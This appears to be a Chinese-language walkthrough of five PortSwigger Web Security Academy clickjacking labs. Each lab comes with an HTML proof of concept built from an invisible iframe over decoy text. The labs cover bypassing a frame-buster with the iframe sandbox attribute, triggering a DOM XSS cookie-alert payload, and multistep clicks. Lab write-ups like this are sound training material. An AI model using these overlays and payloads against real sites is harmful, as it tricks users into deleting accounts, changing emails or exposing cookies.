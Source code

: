 [TOC]

#### 1. Basic clickjacking with CSRF token protection

这个题就直接调整位置，把click me放到delete account里面就可以了。

POC：

```html
<style>
   iframe {
       position:relative;
       width:700px;
       height: 500px;
       opacity: 0.0001;
       z-index: 2;
   }
   div {
       position:absolute;
       top:325px;
       left:50px;
       z-index: 1;
   }
</style>
<div>click me</div>
<iframe src="https://ac271f761f1fdb0480990a41001600cd.web-security-academy.net/account"></iframe>
```

#### 2. Clickjacking with form input data prefilled from a URL parameter

这道题和第一题的区别就在于要自动填入邮箱。

POC:

```html
<style>
   iframe {
       position:relative;
       width:700px;
       height: 500px;
       opacity: 0;
       z-index: 2;
   }
   div {
       position:absolute;
       top:435px;
       left:55px;
       z-index: 1;
   }
</style>
<div>click me</div>
<iframe src="https://acc91fe11f276ef48087348200d4004e.web-security-academy.net/email?email=11@11"></iframe>
```

#### 3. Clickjacking with a frame buster script

> Frame busting techniques are often browser and platform specific and because of the flexibility of HTML they can usually be circumvented by attackers. As frame busters are JavaScript then the browser's security settings may prevent their operation or indeed the browser might not even support JavaScript. An effective attacker workaround against frame busters is to use the HTML5 iframe **`sandbox` attribute. When this is set with the `allow-forms` or `allow-scripts` values and the `allow-top-navigation` value is omitted then the frame buster script can be neutralized as the iframe cannot check whether or not it is the top window:**
>
> `<iframe id="victim_website" src="https://victim-website.com" sandbox="allow-forms"></iframe>`
>
> Both the `allow-forms` and `allow-scripts` values permit the specified actions within the iframe but top-level navigation is disabled. This inhibits frame busting behaviors while allowing functionality within the targeted site.

POC:

```html
<style>
   iframe {
       position:relative;
       width:700px;
       height: 500px;
       opacity: 0;
       z-index: 2;
   }
   div {
       position:absolute;
       top:425px;
       left:55px;
       z-index: 1;
   }
</style>
<div>click me</div>
<iframe src="https://acf51fe41e83555c80d329f2007d0006.web-security-academy.net/email?email=11@11" sandbox="allow-forms"></iframe>
```

这里果然禁止了脚本的执行：

![3.1](Clickjacking-burp.assets/3.1.png)

而不加sandbox的属性时，就不能成功了。

![3.2](Clickjacking-burp.assets/3.2.png)

#### 4. Exploiting clickjacking vulnerability to trigger DOM-based XSS

这个题目包含一个 XSS 漏洞，而这个题目的目的就是用 Clickjacking 去触发 XSS 。

先找到 XSS 漏洞在 feedback 的 name 处。

payload：

```
donx<img src="uuu" onerror="alert(document.cookie)">
```

POC：

```html
<style>
   iframe {
       position:relative;
       width:1000px;
       height: 1500px;
       opacity: 0;
       z-index: 2;
   }
   div {
       position:absolute;
       top:805px;
       left:55px;
       z-index: 1;
   }
</style>
<div>click me</div>
<iframe src="https://ac191f091e6a2a4180e41715004400e8.web-security-academy.net/feedback?name=<img src='' onerror='alert(document.cookie)'>&email=1@1&subject=1&message=1"></iframe>
```

#### 5. Multistep clickjacking

这道题目需要多次点击。

这里使用id来创建多个div。

POC:

```html
<head>
  <style>
    #target_website {
      position:relative;
       width:1000px;
       height: 1500px;
       opacity: 0;
       z-index: 2;
      }
    #first {
      position:absolute;
       top:280px;
       left:45px;
       z-index: 1;
      }
    #second {
       position:absolute;
       top:280px;
       left:200px;
       z-index: 1;
     } 
  </style>
</head>
<body>
  <div id="first">Click me first</div>
  <div id="second">Click me second</div>
  <iframe id="target_website" src="https://ac0d1ff41ec12a19805c2be0006e0032.web-security-academy.net/account">
  </iframe>
</body>
```

